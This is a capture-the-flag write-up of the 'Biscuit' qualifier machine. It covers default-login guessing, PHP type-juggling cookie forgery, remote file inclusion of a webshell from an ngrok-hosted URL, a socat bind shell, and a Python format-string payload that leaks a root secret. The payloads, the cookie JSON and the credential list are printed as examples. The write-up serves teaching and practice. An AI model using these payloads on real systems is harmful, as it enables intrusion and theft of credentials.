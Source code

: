 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) - eng"
tags: eng ctf write-up
---
```



Hello, I'm Vinicius (big0us), this is a write-up of a machine that was the challenge for one of UHC's qualifiers. (translate to english by [0day](https://twitter.com/0dayctf))
Happy reading :)
g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

The first page you're greeted with a login page, taking a look at the HTML of the page, apparently there's
nothing hidden, I'll fuzz first, then we can test some credentials.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Apparently our fuzzing only showed a /class, where there is a directory listing pointing
to a ".php" file.

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Okay, let's test some default credentials in the login form:

```
admin:admin
guest:guest
administrator:admin
root:root
```

By testing "guest:guest" we were able to enter:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Looking around apparently, we only have a welcome page.
Let's check our cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Using cyberchef to decode the cookie, we can see that it's JSON with three values:
hmac (probably something that validates the values), username, and a time for the
cookie to expire.

I'm going to try to change the username value in the cookie to "admin" with base64 & URL encoding, and
then send back to the application.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

This page showed an error saying that we're trying to do "cookie tampering", and
returned a flag! The first flag.
After some tests, sending cookies with other random values, I realized that
the application validates the cookie by the value of hmac, and not by the entire content
of json.
A well-known vulnerability about PHP validations is type-juggling, which consists of
bypassing authentications by making any if($ == $) that will always return "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basically when a programmer uses "==" in a php comparison, first it makes the two values
the same type, ignoring the type (int, str...) of the variables.
And in this situation we can use some techniques for the comparison to return "true".

# Exploitation

After trying for quite a while, I tried changing the value of "hmac" to "true" and luckily it
worked!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Okay :( I was sad that there are no flags here.
I'll try to change the username again, to understand what's going on.

Changing to "test", php gives us an error, it seems it's running a "require_once" on
the value we put & appending ".php" at the end. require_once is normally used to include
pages and php files in websites, and when the user has control over the value that
require_once uses, the application is vulnerable to LFI or RFI (Local/Remote File
Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

As the application already puts the .php at the end, I will do the following.
Upload a file with a webshell on a server using ngrok, then tell the application to include my
file and get an RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

And I will send the payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(The application now puts the .php)

We have RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Now I'm going to try to get a reverse shell.
After a few attempts I realized that there is a firewall in the application that blocks any
communication on ports other than 80 or 443, since I don't have a VPS, I'll do it differently, instead of a reverse shell (where the victim connects back to me) I'm going to use a bind shell (opening a port on the machine and connecting to it). For this I will use "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

First I got the socat binary in their github (socat binary) and passed it to the machine
using the web-server that I created to get RCE, and curling it.
I ran the commands that are in the image and got a bind shell! (I used port 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

In "/" have our next flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Post Exploitation

Doing the basic privesc checklist, we can see that we are the apache user and we
can run a script as root on the machine:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Apparently we can't read the script or change it.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

What's left for us to do, is to simply RUN IT!:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

The file prints an IP with option 2 (List Blocked IP's), taking a look at /var/www/html the web application path, we
can see that there is a file with the same IP that was printed, so it's printing the IP that is in the file.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

I opened the file with nano (before running 'export TERM=xterm' !!) and started editing
it, to try and provoke some type of error in python that would show me something from the
program.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interestingly, there is a different (not used often) format string running.
Searching about this type of format string + vulnerabilites, I ended up stumbling on this
article.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basically it explains everything we need to do, so I won't explain it again, but
the way this format string works, allows us to inject more strings to be formatted, and if
this is printed we can print all the global variables that the file uses, usually giving us
some key or password.

Okay here is my final payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

This worked and we got the value of a variable called root_secret, it's probably
the root password.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!
Thanks to you who've read this far, I hope you enjoyed this challenge / writeup!
